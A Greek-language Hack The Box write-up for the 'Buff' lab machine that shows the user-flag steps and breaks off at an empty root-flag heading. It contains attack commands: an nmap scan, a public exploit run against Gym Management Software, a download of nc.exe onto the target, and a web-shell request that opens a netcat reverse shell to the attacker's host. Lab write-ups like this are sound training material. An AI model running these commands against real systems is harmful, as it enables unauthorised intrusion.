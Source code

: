 ## [HTB] Hackthebox Buff machine writeup by dhmosfunk



![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/buff.png?raw=true)<br>

[1.User flag](https://github.com/p19tzam/hackthebox-mywriteups/blob/main/buff/README.md#1user-flag)

[2.Root flag](https://github.com/p19tzam/hackthebox-mywriteups/blob/main/buff/README.md#2root-flag)




#### 1.User flag
- [x] MACHINE IP: 10.10.10.198 <br> <br>
Πρώτα απ όλα ξεκινάμε με ένα nmap scan για να δούμε τι ports τρέχουν στην IP. <br>
```nmap -sV -sC -oA nmap/buff 10.10.10.198```
![buff](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nmap%20scan.png?raw=true)

Όπως βλέπουμε στο scan μας τρέχει ενας webserver στο port 8080.
Ανοίγοντας το site στον browser και πηγαίνοντας στο contact.php θα βρούμε το software που τρέχει στον server(Που επίσης είναι outdated).

![outdatedsoftware](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/gymanagement.png?raw=true)

Με ενα google search βρίσκουμε το συγκεκριμένο exploit: [Gym Management Software 1.0 exploit](https://www.exploit-db.com/exploits/48506)

Το κάνουμε download και το τρέχουμε όπως δείχνω στην εικόνα

```python 48506.py http://10.10.10.198:8080/```
![exploit](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/shell.png?raw=true)

Και έχουμε shell!

Τώρα θέλουμε να κάνουμε ενα [reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/) που θα το κάνουμε με το netcat.

Πρώτα απο όλα πρέπει να βρούμε το netcat.exe και να το κάνουμε upload στο buff machine

![nc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc.png?raw=true)

Μόλις βρούμε το netcat.exe δημιουργούμε ενα simplehttpserver με την python για να το “τραβήξουμε” στο buff machine <br>
```python -m SimpleHTTPServer 9003 ```
![simplehttpserver](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/httpserver.png?raw=true)


Για να “τραβήξουμε” το nc.exe θα πρέπει να χρησιμοποιήσουμε το ‘wget’ όπως δείχνω παρακάτω <br>
```powershell wget http://10.10.14.41:9009/nc.exe```<br>
![uploadnc](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/uploadnc.png)


Ωραία μέχρι εδω..
Τώρα reverse shell.. Δημιουργούμε ενα listener στο kali machine
```nc -lvvnp 9003```
![nclistener](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/nc%20listen.png?raw=true)

Μόλις βάλουμε τον listener θα πρέπει να πάμε στον browser να τρέξουμε το command:<br>
```10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe 10.10.14.41 9003 -e cmd.exe```
![browservs](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/browser%20reverse%20shell.png?raw=true)
<br>
<br>Και μετα βρίσκουμε το user.txt
![userflag](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflag.png?raw=true)

![userflag2](https://github.com/p19tzam/photos/blob/main/hackthebox-writeups-photos/userflagtxt.png?raw=true)

Και πάμε για το root!








#### 2.Root flag
